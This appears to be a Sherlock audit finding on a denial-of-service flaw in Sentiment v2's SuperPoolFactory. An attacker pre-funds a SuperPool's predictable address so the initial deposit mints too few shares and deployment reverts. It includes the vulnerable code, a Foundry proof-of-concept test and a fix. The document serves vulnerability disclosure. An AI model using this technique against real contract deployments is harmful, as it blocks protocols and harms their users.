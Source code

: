 Tricky Eggshell Cobra

High

# **Attacker Can Cause DoS in SuperPool Deployment**


## Summary

An attacker can exploit the predictable address of a newly deployed `SuperPool` contract to deposit assets before the contract is officially deployed. This leads to the initial deposit by the contract owner minting fewer than the required 1000 shares, causing a denial of service (DoS) on the contract deployment process.

## Vulnerability Detail

When a new `SuperPool` is deployed, its address can be predicted using the contract's nonce and the deployer's address. An attacker can take advantage of this by sending assets to the precomputed address before the `SuperPool` contract is deployed. The factory contract relies on the initial deposit to mint a minimum of 1000 shares, which are then burned. However, if the attacker has already sent assets to the precomputed address, the initial deposit by the contract owner will mint fewer than 1000 shares, causing the deployment process to revert.

## Impact

This vulnerability allows an attacker to effectively block the deployment of new `SuperPool` contracts by causing the `SuperPoolFactory_TooFewInitialShares` error to be triggered. The deployer would need to deposit 1000 times the amount of assets already present in the contract to meet the minimum share requirement, making it infeasible to deploy the contract.

## Code Snippet

```solidity
SuperPool superPool = new SuperPool(POOL, asset, feeRecipient, fee, superPoolCap, name, symbol);
superPool.transferOwnership(owner);
isDeployerFor[address(superPool)] = true;

// burn initial deposit
IERC20(asset).safeTransferFrom(msg.sender, address(this), initialDepositAmt); // assume approval
IERC20(asset).approve(address(superPool), initialDepositAmt);
uint256 shares = superPool.deposit(initialDepositAmt, address(this));
if (shares < MIN_BURNED_SHARES) revert SuperPoolFactory_TooFewInitialShares(shares);
IERC20(superPool).transfer(DEAD_ADDRESS, shares);
```
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/SuperPoolFactory.sol#L75
## Coded PoC

The following proof of concept (PoC) demonstrates the attack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "../BaseTest.t.sol";
import {console2} from "forge-std/console2.sol";
import {FixedPriceOracle} from "src/oracle/FixedPriceOracle.sol";

contract SuperPoolUnitTests is BaseTest {
    uint256 initialDepositAmt = 1e5;

    Pool pool;
    Registry registry;
    SuperPool superPool;
    RiskEngine riskEngine;
    SuperPoolFactory superPoolFactory;

    address public feeTo = makeAddr("FeeTo");

    function setUp() public override {
        super.setUp();

        pool = protocol.pool();
        registry = protocol.registry();
        riskEngine = protocol.riskEngine();
        superPoolFactory = protocol.superPoolFactory();

        FixedPriceOracle asset1Oracle = new FixedPriceOracle(1e18);
        vm.prank(protocolOwner);
        riskEngine.setOracle(address(asset1), address(asset1Oracle));
    }

    function testDeployAPoolFromFactory_WITH_BUG() public {
        address feeRecipient = makeAddr("FeeRecipient");

        vm.prank(protocolOwner);
        asset1.mint(address(this), initialDepositAmt);
        asset1.approve(address(superPoolFactory), initialDepositAmt);
        address preDeployedSuperPoolAddress = 0x48B7bEE37E99c87E81DC7896011b83c438Ef0f31;
        asset1.mint(preDeployedSuperPoolAddress, 1e18);
        vm.expectRevert();
        address deployed = superPoolFactory.deploySuperPool(
            poolOwner,
            address(asset1),
            feeRecipient,
            1e17,
            type(uint256).max,
            initialDepositAmt,
            "test",
            "test"
        );
        console2.log("deployed", deployed);
    }
}
```
## Tool used

Manual Review

## Recommendation

To mitigate this issue, transfer the asset balance in the constructor of the `SuperPool` contract. 